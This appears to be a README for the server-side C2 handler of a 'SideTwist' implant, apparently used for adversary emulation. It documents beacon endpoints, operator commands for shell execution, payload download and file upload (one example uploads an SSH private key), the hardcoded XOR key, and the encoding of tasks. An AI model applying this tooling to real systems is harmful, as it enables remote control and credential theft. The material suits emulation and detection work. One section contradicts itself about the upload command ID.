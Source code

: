 # SideTwist handler

The SideTwist C2 handler is the server-side counterpart for the SideTwist implant and is specifically designed to interact with it by sending commands embedded in HTML and receiving the associated output.

## Components

The handler consists of a web server that listens on a specified address/port and serves the following URL endpoints:

- `GET /search/{guid}`, where `{guid}` represents the unique ID of an implant session to register and receive tasks. E.g. the first `GET` request for `/search/1234` will create a new implant session with ID `1234`, and subsequent `GET` requests will simply return tasks.
- `POST /search/{guid}` is used to submit results (task output or file uploads) for the implant with the specified ID.
- `GET /getFile/{filename}` is used to fetch payloads of the name `{filename}`. Available payloads are listed in the `files` directory within the main C2 server repo.
- `GET /logo.png` serves the lookalike website logo. This will typically be requested only when using a browser to view the lookalike site.

## Usage

### Configuration

To enable and configure the SideTwist handler within the control server, edit the `config/handler_config.yml` from the main C2 server repo. Adjust the SideTwist entry as needed.

Example:

```
sidetwist:
  host: 192.168.0.8
  port: 443
  enabled: true
```

Run the `controlServer` binary as `sudo` and look for success messages in starting up the SideTwist handler.

### Tasking Implants

To register or receive tasking for an implant session, the SideTwist handler expects a `GET` request for `/search/{guid}`. If this is the first time that the SideTwist handler recognizes the implant with id `{guid}`, then it will set up a new session within the internal C2 REST server and then begin tasking the implant upon subsequent `GET` requests to the same endpoint.

For example:

```
curl http://192.168.0.4:443/search/abcd # First request, registers a new implant session with ID "abcd". Returns empty task.
curl http://192.168.0.4:443/search/abcd # Second request. Session for "abcd" already exists, returns a task if available, otherwise empty task.
```

As with other C2 handlers, implant tasking is performed by sending requests to the internal REST server using the `evalsC2client.py` script.
The SideTwist handler will allow operators to task the following command types:

- `101 command arg1 arg2...` - the command ID `101` will have the implant execute a shell command with the provided args. Note that a command is required for ID `101`.
- `102 saveAsName|payloadName` - the command ID `102` will have the implant request a payload specified by `payloadName` and save it as `saveAsName`.
 	- WARNING: the handler does not validate the command structure or payload names/paths, so operators must ensure that the correct names and paths are used, the `|` character is correctly placed, etc.
- `103 fileToUpload` - the command ID `103` will have the implant upload the specified local file to the C2 server.
- `104 command arg1 arg2...` - the command ID `104` is an alias for command ID `101`. Note that a command is required for ID `104`.
- `105` - instructs the implant to terminate. Used when the implant is in loop mode.

Examples of valid tasking:

```
./evalsC2client.py --set-task <guid> '101 whoami.exe'
./evalsC2client.py --set-task <guid> '101 ping 1.2.3.4'
./evalsC2client.py --set-task <guid> '102 c:\users\public\payload.exe|payload.exe'
./evalsC2client.py --set-task <guid> '102 localpath\file.name|serverfile.name'
./evalsC2client.py --set-task <guid> '103 c:\users\dummy\.ssh\id_rsa'
./evalsC2client.py --set-task <guid> '104 dir "C:\path with\spaces"'
./evalsC2client.py --set-task <guid> '105'
```

Examples of invalid tasking:

```
./evalsC2client.py --set-task <guid> '101' # 101 requires a command
./evalsC2client.py --set-task <guid> '102' # 102 requires a payload name
./evalsC2client.py --set-task <guid> '103' # 103 requires a filename
./evalsC2client.py --set-task <guid> '104' # 104 requires a command
./evalsC2client.py --set-task <guid> '106' # 106 is not a supported command ID
```

When the implant beacons in with the `GET /search/{guid}` requests, the returned HTTP response contains an HTML page with an embedded task string that has been encrypted and base64-encoded.
The embedded string is placed within `<script>` HTML tags, e.g.:

```
<script>/*Q14IEQ==*/</script>
```

Encryption and decryption are performed by XOR'ing the plaintext/ciphertext with the hardcoded key `notmersenne`.
The underlying plaintext data is the task string that gets processed by the implant and is of the form `commandNumber|commandID|base64(command to execute)`.
For instance, the first task assigned to the implant may look something like `1|101|d2hvYW1pLmV4ZSAvYWxs` (base64 encoding of `whoami.exe /all`), and the second task may look something like `2|102|YzpcdXNlcnNccHVibGljXHBheWxvYWQuZXhlfHBheWxvYWQuZXhl` (base64 encoding of `c:\users\public\payload.exe|payload.exe`). Note that if an implant beacons in, but there is no pending task for the session, the empty task string `-1||` is returned.

### Payloads

Like tasking, requested payloads are XOR-encrypted and base64-encoded before being returned. However, the payload data is not embedded in an HTML page. Instead, the raw encrypted/encoded file data is returned.

SideTwist-specific payloads must be stored within the `payloads/SideTwist` directory within the parent directory of the control server. For instance, if the control server is being run from the `Resources/control_server` directory, the payloads must be placed in `Resources/payloads/SideTwist/` in order for the SideTwist handler to successfully serve them.

### File Uploads and Task Output

When implants send task output or file uploads to the SideTwist C2 handler, they must do so by sending an HTTP `POST` request to `/search/{guid}` with their corresponding `guid` value. The server will not accept task output or file uploads from an implant if no task was assigned to the implant or if the specified task does not expect output (e.g. tasking the implant to terminate itself). The `POST` data must be a JSON dictionary with one key-value pair - the key is a string representation of the corresponding command number, and the value is a string containing the base64 encoding of the XOR-encrypted output or uploaded file data.

Example (implant `abcd` submits output `thisismyoutput` for command number 5):

```
curl -X POST --data '{"5": "GgcdHgwBHhwBGxEeGgA="}' http://192.168.0.4:443/search/abcd
```

Upon success, a successful HTTP response code is sent back with an empty response body.

For regular task output, the SideTwist handler will forward the decoded and decrypted output to the REST server. File uploads will be decoded and decrypted before being written to the server's file system.

Note that the file uploads themselves do not contain the file name to save as - this is determined by the handler when tasking the implant with command ID `104`. For instance, if the implant is tasked with `104 C:\path\to\file.txt`, then the received file upload data will be saved as `file.txt` within the C2 server's `files` directory.

### Bootstrap Tasking

Since the SideTwist implant beacons back infrequently, the first beacon can be "wasted" since all it does is register a session without returning a command. If operators choose to do so, they can register "bootstrap" tasks, which will be the first task sent to any new session registered with the sidetwist handler. Note that only one bootstrap task can be registered for the SideTwist handler, and the task will only be sent on the implant's first beacon when registering a session. Subsequent beacons from the same implant will not return this task.

To set a bootstrap task, use the `evalsC2client.py` script accordingly:

```
./evalsC2client.py --set-bootstrap-task sidetwist '101 whoami.exe /all'
```

In the example above, all new sidetwist sessions will be tasked with `101 whoami.exe/all`. Note that the task syntax must be the same as in regular tasking via `--set-task`.
Subsequent calls to `--set-bootstrap-task` will overwrite the currently set task.

To view or clear the currently set bootstrap task, run the following:

```
./evalsC2client.py --get-bootstrap-task sidetwist # view the currently set bootstrap task for sidetwist
./evalsC2client.py --del-bootstrap-task sidetwist # clear the bootstrap task for sidetwist
```

### Error Messages

In order to maintain some level of secrecy and OpSec, the handler will not return specific error messages in response to HTTP requests. Any specific error messages will be logged to the console and log file on the C2 server itself. The implant and HTTP requests will simply receive a generic error message of `Internal server error` with HTTP error code `500`.
